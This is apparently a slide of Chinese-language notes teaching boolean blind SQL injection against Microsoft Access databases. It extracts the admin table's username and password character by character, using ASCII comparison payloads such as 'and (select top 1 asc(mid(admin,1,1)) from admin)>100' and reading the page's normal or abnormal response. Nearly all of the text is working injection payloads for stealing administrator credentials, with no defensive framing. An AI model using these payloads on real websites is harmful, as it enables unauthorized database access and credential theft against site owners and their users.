

# Access逐字猜列中的数据 猜解bool盲注
猜解管理员表(admin)的admin列的第一个字符 前提:admin表admin、password列已经拆解出来了
通过判断ascii码来判断
and (select top 1 asc(mid(admin,1,1)) from admin)>100 返回正常说明大于，不正常说明不大于
and (select top 1 asc(mid(admin,1,1)) from admin)>50  返回正常说明大于
and (select top 1 asc(mid(admin,1,1)) from admin)=97  返回正常说明等于97 97对应的字母为a
   猜解管理员表的第一列的第二字符
and (select top 1 asc(mid(admin,2,1)) from admin)=100  d
猜解管理员表的第一列的第三字符
and (select top 1 asc(mid(admin,3,1)) from admin)=109
and (select top 1 asc(mid(password,2,1)) from admin)=97
以此类推
猜解管理员表(admin)的password列的第一个字符
and (select top 1 asc(mid(password,1,1)) from admin)=50 2